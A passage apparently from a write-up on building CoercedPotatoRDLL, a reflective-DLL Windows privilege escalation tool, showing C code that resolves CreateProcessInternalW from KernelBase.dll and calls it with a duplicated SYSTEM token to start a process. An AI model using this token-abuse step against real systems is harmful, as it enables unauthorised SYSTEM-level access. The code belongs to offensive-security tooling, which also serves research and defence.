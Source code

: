 
The function just forwards the arguments to `CreateProcessInternalW` from `KernelBase.dll`. We can use it in the CoercedPotatoRDLL code:

```c
typedef BOOL(WINAPI* fnCreateProcessInternalW)(
	HANDLE,
	LPCWSTR,
	LPWSTR,
	LPSECURITY_ATTRIBUTES,
	LPSECURITY_ATTRIBUTES,
	BOOL,
	DWORD,
	LPVOID,
	LPCWSTR,
	LPSTARTUPINFOW,
	LPPROCESS_INFORMATION
);

fnCreateProcessInternalW CreateProcessInternalW; 

CreateProcessInternalW = (fnCreateProcessInternalW)GetProcAddress(
										GetModuleHandle(L"kernelbase.dll"),
										"CreateProcessInternalW"
										); 

if (!CreateProcessInternalW(hSystemTokenDup,
							g_pwszProcessName,
							g_pwszCommandLine,
							NULL,
							NULL,
							g_bInteractWithConsole,
							dwCreationFlags,
							lpEnvironment,
							pwszCurrentDirectory,
							&si,
							&pi)) 
	wprintf(L"CreateProcessInternalW failed, error = %d\n", GetLastError());
else
	wprintf(L"CreateProcessInternalW seems OK");

```
